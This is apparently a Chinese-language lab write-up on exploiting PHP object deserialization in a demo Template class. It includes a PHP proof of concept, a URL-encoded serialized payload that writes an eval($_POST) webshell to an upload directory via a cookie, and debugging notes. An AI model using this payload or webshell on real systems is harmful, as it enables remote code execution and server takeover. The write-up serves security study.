 ~~~
new Template（）------__construct（）------loadData（）-----unserialize（）-----这里代码正常继续往下执行，也就是rander（），但是在调用链中，unserialize执行完会调用destruct ------createCache（）-----file_put_contents。
正常代码执行，在最后代码执行完，释放存储空间时才会调用__destruct()。
~~~

需要传入的参数为`$cacheFile`和`$template`，木马写入到uplaod目录下（有写权限），值为`"../upload/shell7.php"`

参数`$template`为文件写入的内容，值为：`'<?php eval($_POST["code"])?>'`

由于__destruct()是最后执行的，在他们之前会执行rander（），也就是会执行：

~~~
echo sprintf($this->template, htmlspecialchars($data['name']));	//把格式化的字符串写入一个变量中。
~~~

其中进行了反序列化的对象应当为一个数组，因为代码通过`$data['name']`来取值，如果$data不是数组的话，会直接致命错误，所以需要将$data转化为数组，哪怕其中没有name的值也没关系（报错但不会停止代码的运行）

最终生成的生成POC为：

~~~
<?php


class Template {
    var $cacheFile = "../upload/shell7.php";
    var $template = '<?php eval($_POST["code"])?>';
    
    function __construct($file = null, $tpl = null) {	//其实这段方法也可以去掉，生成序列化的字符串（payload），只需														   //要关注其中类属性的赋值，哪里有类的声明，赋值。
        $file = $file ?: $this->cacheFile;
        $tpl = $tpl ?: $this->template;
    } 
}
$t = serialize(array(new Template()));
echo urlencode($t);
?>
~~~

执行代码，生成payload：

~~~
a%3A1%3A%7Bi%3A0%3BO%3A8%3A%22Template%22%3A2%3A%7Bs%3A9%3A%22cacheFile%22%3Bs%3A20%3A%22..%2Fupload%2Fshell7.php%22%3Bs%3A8%3A%22template%22%3Bs%3A28%3A%22%3C%3Fphp%20eval%28%24_POST%5B%22code%22%5D%29%3F%3E%22%3B%7D%7D
~~~

访问demo3，在cookie参数中添加参数data=payload。

查看文件，shell成功写入，反序列化漏洞利用成功。

在实验二中遇到的离谱问题（都已经解决）：

~~~
生成的payload只能用一次，即反序列化字符串用完，生成文件以后，删除文件，再次执行，文件不会再生成，重新生成一段payload（和之前的payload一样），复制粘贴，重新执行，shell生成。
不重新生成payload，代码只执行一次destruct，执行的cat，没有写入shell

重新生成payload，代码只执行一次destruct，执行的cat，写入了shell，（没道理）
怀疑是有缓存。不对
因为执行的是demo4（poc）那段代码中写入的文件。也就执行demo4写入shell，执行demo3写入cat。效果和正常一样，但过程完全不同。
现在的问题是 demo3的代码执行不正常，也就是调用完unserialize之后，不自动调用__destruct。其中的代码不执行。
是因为传参传错了，应该是data，写成code了
因为没有参数传进来，所以unserialize执行时，空不会请求存储空间，所以也不会释放存储空间，所以调用不到__destruct()。

调用完unserialize（）之后，不会立刻调用__destruct()，而是等代码都执行完之后再执行（释放空间）。

因为进行了url编码，原本的空格被变为了+，这样写入shell中的内容为php+eval。可以通过手动修改payload，将+改为%20，这样就正常写入php eval了。
~~~
